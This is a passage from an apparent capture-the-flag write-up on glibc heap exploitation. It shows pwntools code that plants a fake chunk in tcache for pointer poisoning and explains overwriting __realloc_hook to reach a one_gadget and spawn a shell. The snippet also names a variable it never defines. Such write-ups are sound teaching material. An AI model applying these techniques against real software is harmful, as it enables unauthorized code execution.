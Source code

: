 We will take the third one (Because I have try with the second one but not succeeded). 

And that's all! Let's move on step 2

- Step 2: Overwrite some hook and spawn shell

Now we need our fake chunk in tcache, abuse link list to overwrite forward pointer. So that we will create a small fake chunk with size of 0x70 (if create a chunk with size of 0x90 as above will cause error) and then free it:

```
pointer_to_fake_chunk = flat(0x602100 + 0x20, 0)
fake_heap = fit({
    0x0: flat(0, 0x71),
    0x70: flat(0, 0x21),	# Avoid heap consolidation
    0x90: flat(0, 0x21)		# Avoid heap consolidation
    }, filler = b'\x00')
show(b'Y', pointer_to_fake_chunk + fake_chunk)		# Create fake junk
delete(20)		            # Chunk goes to tcache
```

![Free_0x70.png](images/Free_0x70.png)

At first, I tried to overwrite `__malloc_hook` but it can not control the stack to satisfy the contraint of one_gadget. So we will use `__libc_realloc` to pop and push with a suit order. Also in `__libc_realloc` source code, it will check if `__realloc_hook` is null byte or not at the begining. If not, the `__realloc_hook` is executed

Source code of `__realloc_hook`:

```
__libc_realloc (void *oldmem, size_t bytes)
{
    .
    .
    .
    void *(*hook) (void *, size_t, const void *) = atomic_forced_read (__realloc_hook);
    if (__builtin_expect (hook != NULL, 0))
        return (*hook)(oldmem, bytes, RETURN_ADDRESS (0));
    .
    .
    .
}
```

After examining `__realloc_hook` and `__malloc_hook`, we can see that `__realloc_hook` is right before `__malloc_hook`:

![realloc_before_malloc.png](images/realloc_before_malloc.png)
